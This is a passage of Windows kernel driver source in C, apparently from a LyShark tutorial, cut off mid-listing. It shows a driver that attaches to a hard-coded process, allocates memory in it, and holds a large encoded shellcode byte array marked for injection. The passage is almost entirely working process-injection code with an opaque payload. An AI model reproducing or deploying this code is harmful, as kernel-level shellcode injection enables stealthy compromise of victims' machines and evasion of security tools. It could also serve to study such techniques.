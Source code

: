     			return FALSE;
    		}
    
    		return TRUE;
    	}
    
    	__finally
    	{
    		// 释放对象
    		if (pEProcess != NULL)
    		{
    			ObDereferenceObject(pEProcess);
    			pEProcess = NULL;
    		}
    
    		// 取消附加进程
    		KeUnstackDetachProcess(&ApcState);
    	}
    
    	return FALSE;
    }
    
    VOID Unload(PDRIVER_OBJECT pDriverObj)
    {
    	DbgPrint("[-] 驱动卸载 \n");
    }
    
    NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
    {
    	DbgPrint("Hello LyShark.com \n");
    
    	ULONG process_id = 5844;
    	DWORD create_size = 1024;
    	DWORD64 ref_address = 0;
    
    	// -------------------------------------------------------
    	// 应用层开堆
    	// -------------------------------------------------------
    
    	NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);
    
    	DbgPrint("对端进程: %d \n", process_id);
    	DbgPrint("分配长度: %d \n", create_size);
    	DbgPrint("分配的内核堆基址: %p \n", ref_address);
    
    	// 设置注入路径,转换为多字节
    	UCHAR ShellCode[] =
    		"\xdb\xde\xd9\x74\x24\xf4\x5a\xbe\x12\x21\xe9\xef\x31\xc9\xb1"
    		"\x59\x31\x72\x19\x83\xc2\x04\x03\x72\x15\xf0\xd4\x15\x07\x7b"
    		"\x16\xe6\xd8\xe3\x26\x34\x51\x06\x2c\x33\x30\xf8\x26\x11\xb9"
    		"\x73\x6a\x82\x4a\xf1\xa3\xa5\xfb\xbf\x95\x88\xfc\x0e\x1a\x46"
    		"\x3e\x11\xe6\x95\x13\xf1\xd7\x55\x66\xf0\x10\x20\x0c\x1d\xcc"
    		"\xe4\x65\xb3\xe1\x81\x38\x0f\x03\x46\x37\x2f\x7b\xe3\x88\xdb"
    		"\x37\xea\xd8\xa8\x90\xcc\x53\xe6\x38\x5d\x65\x25\xbd\x94\x11"
    		"\xf5\xf7\x17\x25\x8e\x3c\xd3\xd8\x46\x0d\x23\x76\xa7\xa1\xae"
    		"\x86\xe0\x06\x51\xfd\x1a\x75\xec\x06\xd9\x07\x2a\x82\xfd\xa0"
    		"\xb9\x34\xd9\x51\x6d\xa2\xaa\x5e\xda\xa0\xf4\x42\xdd\x65\x8f"
    		"\x7f\x56\x88\x5f\xf6\x2c\xaf\x7b\x52\xf6\xce\xda\x3e\x59\xee"
    		"\x3c\xe6\x06\x4a\x37\x05\x50\xea\xb8\xd5\x5d\xb6\x2e\x19\x90"
    		"\x49\xae\x35\xa3\x3a\x9c\x9a\x1f\xd5\xac\x53\x86\x22\xa5\x74"
    		"\x39\xfc\x0d\x14\xc7\xfd\x6d\x3c\x0c\xa9\x3d\x56\xa5\xd2\xd6"
    		"\xa6\x4a\x07\x42\xad\xdc\xa2\x92\xf3\x0a\xdb\x90\xf3\x15\x14"
    		"\x1d\x15\x09\x7a\x4d\x8a\xea\x2a\x2d\x7a\x83\x20\xa2\xa5\xb3"
    		"\x4a\x69\xce\x5e\xa5\xc7\xa6\xf6\x5c\x42\x3c\x66\xa0\x59\x38"
    		"\xa8\x2a\x6b\xbc\x67\xdb\x1e\xae\x90\xbc\xe0\x2e\x61\x29\xe0"
    		"\x44\x65\xfb\xb7\xf0\x67\xda\xff\x5e\x97\x09\x7c\x98\x67\xcc"
    		"\xb4\xd2\x5e\x5a\xf8\x8c\x9e\x8a\xf8\x4c\xc9\xc0\xf8\x24\xad"
    		"\xb0\xab\x51\xb2\x6c\xd8\xc9\x27\x8f\x88\xbe\xe0\xe7\x36\x98"